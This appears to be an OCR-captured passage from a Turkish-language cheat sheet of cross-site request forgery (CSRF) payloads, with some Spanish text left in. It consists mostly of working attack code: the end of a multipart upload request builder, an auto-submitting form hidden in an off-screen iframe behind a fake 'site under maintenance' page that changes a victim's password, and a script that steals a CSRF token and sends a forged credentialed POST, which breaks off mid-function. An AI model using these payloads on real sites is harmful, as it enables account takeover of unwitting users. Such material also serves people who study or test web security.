 ```javascript
body +=
'Content-Disposition: form-data; name="' +
nameVar +
'"; filename="' +
fileName +
'"\r\n'
body += "Content-Type: " + ctype + "\r\n\r\n"
body += fileData + "\r\n"
body += "--" + boundary + "--"

//xhr.send(body);
xhr.sendAsBinary(body)
```
### Bir iframe içinden Form POST isteği
```html
<--! expl.html -->

<body onload="envia()">
<form
method="POST"
id="formulario"
action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva" />
</form>
<body>
<script>
function envia() {
document.getElementById("formulario").submit()
}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000"> </iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
</body>
</body>
```
### **CSRF Token'ı Çal ve bir POST isteği gönder**
```javascript
function submitFormWithTokenJS(token) {
var xhr = new XMLHttpRequest()
xhr.open("POST", POST_URL, true)
xhr.withCredentials = true

// Send the proper header information along with the request
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded")

// This is for debugging and can be removed
xhr.onreadystatechange = function () {
if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
//console.log(xhr.responseText);
}
}

xhr.send("token=" + token + "&otherparama=heyyyy")
}

function getTokenJS() {
var xhr = new XMLHttpRequest()
// This tels it to return it as a HTML document
xhr.responseType = "document"
xhr.withCredentials = true
```